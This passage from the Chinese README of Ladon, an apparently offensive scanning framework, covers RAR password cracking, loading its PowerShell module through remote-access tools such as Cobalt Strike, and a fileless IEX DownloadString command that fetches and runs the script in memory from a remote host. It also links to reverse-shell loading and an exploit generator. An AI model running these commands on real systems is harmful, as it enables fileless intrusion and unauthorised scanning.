 ##### 文件密码
因Rar压缩包只需一个密码,故只需pass.txt,注意中文密码需将txt保存为Ansi编码<br>
命令: Ladon test.rar RarScan<br>

## PowerShell
PowerLadon完美兼容win7-win10 PowerShell，对于不支持.net程序插件化的远控，可使用<br>
PowerShell版,也可CMD命令行下远程加载内存实现无文件扫描，模块加载后用法和EXE一致。<br>

#### 0x001 PowerShell本地加载<br>
适用于支持PowerShell交互远控或Shell，如Cobalt Strike
```Bash
> powershell 
> Import-Module .\Ladon.ps1
> Ladon OnlinePC
```
<img src=https://k8gege.github.io/k8img/Ladon/PowerLadon.gif></img>

#### 0x002 Cmd本地加载
适用于还没跟上时代的远控或Shell只支持CMD交互
```bash
> powershell Import-Module .\Ladon.ps1;Ladon OnlinePC
```
<img src=https://k8gege.github.io/k8img/Ladon/ps/CmdPSLadon.gif></img>

#### 0x003 Cmd远程加载
适用于还没跟上时代的远控或Shell只支持CMD交互
```bash
> powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.5:800/Ladon.ps1'); Ladon OnlinePC"
```
<img src=https://k8gege.github.io/k8img/Ladon/ps/CmdPSRemoteLadon.gif></img>

#### 004 NC反弹SHELL加载Ladon
http://k8gege.org/p/LadonNC.html
![](http://k8gege.org/k8img/Ladon/gui/NC_PowerLadon.PNG)

### 高级用法
Ladon最初的设计就是一款扫描框架，为了方便才内置功能<br>
毕竟需要使用一个功能就得在目标多上传一个文件是顶麻烦的<br>
不像MSF框架和模块多大都无所谓，因为你只是在本地使用<br>
为了让大家都可以自定义模块，Ladon插件支持多种编程语言<br>
最菜可通过INI配置插件，了解HTTP可通过EXP生成器生成POC<br>
懂得编程可使用C#、Delphi、VC编写DLL，PowerShell脚本<br>

#### 0x001 Exp生成器
EXP生成器教程: https://github.com/k8gege/Ladon/wiki/LadonExp-Usage<br>
实战例子: https://github.com/k8gege/Ladon/wiki/%E6%BC%8F%E6%B4%9E%E6%89%AB%E6%8F%8F-CVE-2018-2894

#### 0x002 自定义模块教程
自定义模块教程: https://github.com/k8gege/Ladon/wiki/Ladon-Diy-Moudle<br>
